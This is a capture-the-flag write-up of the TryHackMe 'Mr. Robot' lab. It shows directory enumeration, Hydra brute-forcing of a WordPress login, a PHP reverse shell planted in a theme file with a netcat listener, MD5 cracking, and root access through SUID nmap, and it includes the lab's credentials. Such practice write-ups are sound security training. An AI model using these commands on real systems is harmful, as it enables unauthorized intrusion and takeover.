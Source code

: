 # TryHackMe - Mr. Robot Writeup

## Reconnaissance

Initial passive and active reconnaissance involved visiting the target IP in a browser. The landing page appeared to be styled after the _Mr. Robot_ TV series, suggesting potential hidden elements or Easter eggs.

To discover additional directories, I ran `gobuster` against the web server:

```bash
gobuster dir -u http://10.10.178.83 -w /usr/share/wordlists/dirb/common.txt
```

This uncovered a few interesting endpoints, including:

- `/robots.txt`
    
- `/wp-login.php`
    
- `/license.txt`
    

Navigating to `/robots.txt` revealed the following contents:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The file `key-1-of-3.txt` was accessible and contained the first flag.

---

## Enumeration

### 1. Username Discovery (Brute Forcing with Hydra)

The reference to `fsocity.dic` in `robots.txt` hinted that it might be a wordlist. I used it to brute-force usernames on the WordPress login page.

Since WordPress often gives verbose login errors (e.g., "invalid username" vs. "incorrect password"), I exploited this using Hydra:

```bash
hydra -L fsocity.dic -p test 10.10.178.83 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
```

This revealed a valid username: `Elliot`.

### 2. Password Brute-Forcing

With a confirmed username, I ran another Hydra command to brute-force the password:

```bash
hydra -l Elliot -P fsocity.dic 10.10.178.83 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"
```

The correct credentials were found:

```
Username: Elliot
Password: ER28-0652
```

---

## Exploitation

### 1. WordPress Admin Access → Remote Code Execution

Logging into the WordPress dashboard with the above credentials, I verified that Elliot had sufficient privileges to edit theme files via:

**Appearance → Theme Editor**

To gain a reverse shell, I replaced the contents of `archive.php` in the active theme (TwentyFifteen) with a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Before uploading, I modified the IP and port to point to my attack machine.

On my attacker machine, I started a Netcat listener:

```bash
nc -lnvp 53
```

Then, I triggered the reverse shell by visiting:

```
http://10.10.178.83/wp-content/themes/twentyfifteen/archive.php
```

I received a reverse shell as the `www-data` user.

### 2. Finding Key 2

Within the `/home/robot/` directory, I found a `password.raw-md5` file:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Cracking the hash using an online tool (or `hashcat`):

```
MD5 Hash: c3fcd3d76192e4007dfb496cca67e13b
Plaintext: abcdefghijklmnopqrstuvwxyz
```

This gave me the password for the `robot` user. I upgraded my shell for interactivity:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then used `su` to switch to `robot`:

```bash
su robot
```

After providing the cracked password, I successfully switched users and retrieved `key-2-of-3.txt`.

---

## Privilege Escalation

To escalate to root, I checked for binaries with the SUID bit set:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Among the results, I found an interesting binary: `nmap`.

Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#shell), I used `nmap`'s interactive mode to spawn a root shell:

```bash
nmap --interactive
```

Within the Nmap shell:

```bash
!sh
```

This escalated me to a root shell. From there, I navigated to `/root/` and found the final flag: `key-3-of-3.txt`.
